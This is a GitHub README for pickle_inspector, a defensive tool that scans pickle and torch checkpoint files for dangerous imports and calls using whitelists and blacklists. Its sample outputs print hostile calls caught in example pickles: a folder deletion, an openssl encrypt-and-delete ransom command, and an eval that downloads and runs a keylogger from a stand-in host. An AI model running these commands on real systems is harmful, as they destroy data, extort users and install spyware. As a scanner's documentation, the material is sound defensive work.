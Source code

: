 # pickle_inspector 🥒🔬
Check what is in the pickle before eating it.

It works on any type of pickle, but was made with `torch` in mind.

NOTE:
torch == 1.13.0 breaks using custom unpicklers, see https://github.com/pytorch/pytorch/issues/88438
until this is fixed, stick to 1.12.x or older.

## Scanning pickles via command line
**tl;dr** just let me scan my pickles.
```sh
python3 scan_pickle.py --preset stable_diffusion_v1 --in sus.ckpt
```
```
> Scanning file(s): ['sus.ckpt']
> Using white list: ['collections.OrderedDict', 'torch._utils._rebuild_tensor_v2', 'torch.HalfStorage', 'torch.FloatStorage', 'torch.IntStorage', 'torch.LongStorage', 'pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint', 'numpy.core.multiarray.scalar', 'numpy.dtype', '_codecs.encode']
> Reading sus.ckpt
> Found pickle in zip: archive/data.pkl
> Scanning: archive/data.pkl
> found: torch._utils._rebuild_tensor_v2
> found: torch.FloatStorage
> found: collections.OrderedDict
> found: torch.IntStorage
> found: torch.LongStorage
> found: pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint
> found: numpy.core.multiarray.scalar
> found: numpy.dtype
> found: _codecs.encode
> Scan for sus.ckpt PASSED ✅
```
### Script usage
```
usage: Scan pickles [-h] -i INPUT [INPUT ...] [-p {stable_diffusion_v1}] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT [INPUT ...], --in INPUT [INPUT ...]
                        path to a pickle(s) or zip(s) containing pickles
  -p {stable_diffusion_v1}, --preset {stable_diffusion_v1}
                        a whitelist preset to use: stable_diffusion_v1
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        whitelist of modules and functions to allow
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        blacklist of modules and functions to block
```
## Inspecting
Inspect without unpickling.
```py
import torch
import pickle_inspector
result = torch.load('sus.pt', pickle_module=pickle_inspector.inspector)
for c in result.imports:
    print(c)
```
notice calls to `shutil.rmtree`, `os.system` or similar
```
> shutil.rmtree
> torch._utils._rebuild_tensor_v2
> collections.OrderedDict
> numpy.core.multiarray.scalar
> os.system
> numpy.dtype
> _codecs.encode
```
so we are taking a closer look at what is being called
```py
for c in result.calls:
    print(c)
```
and it seems like someone tried to delete something and ransom a file
```
> shutil.rmtree(('/very/important/folder'), {})
> collections.OrderedDict((), {})
> torch._utils._rebuild_tensor_v2((None, 0, (1000,), (1,), False, collections.OrderedDict((), {})), {})
...
> torch._utils._rebuild_tensor_v2((None, 0, (), (), False, collections.OrderedDict((), {})), {})
> os.system(('openssl enc -aes-128-ecb -in important_file -out give_money.enc -K 1337B00B135DEADBEEF; rm important_file'), {})
> numpy.dtype(('f8', False, True), {})
> numpy.dtype.__setstate__(((3, '<', None, None, None, -1, -1, 0),), {})
> _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})
> numpy.core.multiarray.scalar((numpy.dtype(('f8', False, True), {}), _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})), {})
```
## Controlled unpickling
Inspect and unpickle using white and blacklists.

```py
import torch
from pickle_inspector import UnpickleConfig, UnpickleControlled, PickleModule
config = UnpickleConfig()
# only allow  modules, classes and funcions in the whitelist
# the rest will be stubbed
config.whitelist = [
        'torch._utils._rebuild_tensor_v2',
        'torch.FloatStorage',
        'torch.IntStorage',
        'torch.LongStorage',
        'numpy.core.multiarray.scalar',
        'numpy.dtype',
        'collections.OrderedDict',
        '_codecs.encode'
]
result = torch.load('model.ckpt', pickle_module = PickleModule(UnpickleControlled, config))
state_dict = result.structure
for c in result.imports:
    print(c)
```
```
> torch._utils._rebuild_tensor_v2
> torch.FloatStorage
...
> __builtin__.eval
> collections.OrderedDict
...
```
```py
for c in results.calls:
    if 'eval' in c:
        print(c)
```
```py
> __builtin__.eval('import os;os.system("wget https://sus.to/keylog;chmod +x keylog;./keylog &")')
```
## Blacklist & Whitelist
The whitelist has priority over the blacklist.

If the blacklist contains items everything will be allowed except items in the blacklist,\
or items in the blacklist and in the whitelist. This is useful using wildcards.

Example: Block everything within `torch` except `torch.FloatStorage`
```py
conf.blacklist = ['torch.*']
conf.whitelist = ['torch.FloatStorage']
```

If the blacklist is empty and the whitelist contains items, \
everything except items in the whitelist will be blocked.

## Safe whitelist for stable diffusion
A premade whitelist for stable diffusion v1 and v2 is available in this project.

Example: Scan a stable diffusion v1 checkpoint
```py
import torch
from pickle_inspector import UnpickleConfig, PickleModule, UnpickleInspector, importlists
conf = UnpickleConfig(whitelist = importlists.stable_diffusion_v1)
torch.load('sd-v1-4.ckpt', pickle_module=PickleModule(UnpickleInspector, conf))
```

Tested with python 3.9 and torch 1.12.1

---

Copyright (C) 2022  Lopho `<contact@lopho.org>`\
Licensed under the AGPLv3 `<https://www.gnu.org/licenses/agpl-3.0.html>`
